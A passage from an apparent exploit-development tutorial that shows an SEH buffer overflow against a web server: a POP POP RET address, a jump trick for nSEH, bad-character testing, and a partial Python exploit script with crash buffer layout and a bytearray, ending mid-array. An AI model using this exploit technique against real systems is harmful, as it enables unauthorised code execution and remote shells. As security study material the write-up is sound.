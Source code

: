 Let's set a breakpoint on our `POP POP RET` address like so: 

![](/assets/images/CTP/efsbreak.JPG)

And then we can step through it and make sure we end up in our `\xcc` buffer that we created. 

![](/assets/images/CTP/stepthrough.gif)

Perfect, we land in our `\xcc` buffer as expected. We also have a huge amount of space in our `D` buffer to play with. This is looking like a case where we just need to jump over our existing current SEH handler code (`\x99\xab\x01\x10`), and land in our `D` buffer where can stuff some shellcode. 

To do this, I used our favorite Net Jump that we used previously in the series and made `nseh = '\x74\x06\x75\x04'`. This will jump if the Zero Flag is set or if the Zero Flag is not set, since it can only be one or the other, we are guaranteed to jump. We could've used a simple `'\xeb\x06\x90\x90'` value for `nseh` but this is less cool imo. :)

After executing this, we take our jump and land in our `D` buffer. 

This is where things got a little sketchy. 

## Badcharacters Abound

Up until now, we've really only used a handful of characters: `\x41` for our `A` values, `\x44` for our `D` values, `\x99\xab\x01\x10` for `seh`, and `\x74\x06\x75\x04` for `nseh`, so we were nowhere close to out of the woods on character restrictions.

When I put shellcode in our `D` buffer, I didn't receive a callback to my netcat listener so I figured there were some badcharacters. I then tried to test for badcharacters the standard way and had some success by:
+ sending my payload and crashing the application, 
+ right-clicking on ESP and then selecting 'Follow in Dump', 
+ scrolling down until the `A` buffer ended and my bytearray of badchars appeared,
+ seeing which characters were corrupted and removing them one by one. 

The exploit looked like this about midway through my testing: 
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

'''
nseh = "\x74\x06\x75\x04"

#POP POP RET 0x1001ab99
seh = '\x99\xab\x01\x10'

crash = "A" * 4061
crash += nseh
crash += seh
crash += "D" * (5000 - len(crash))
'''

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
```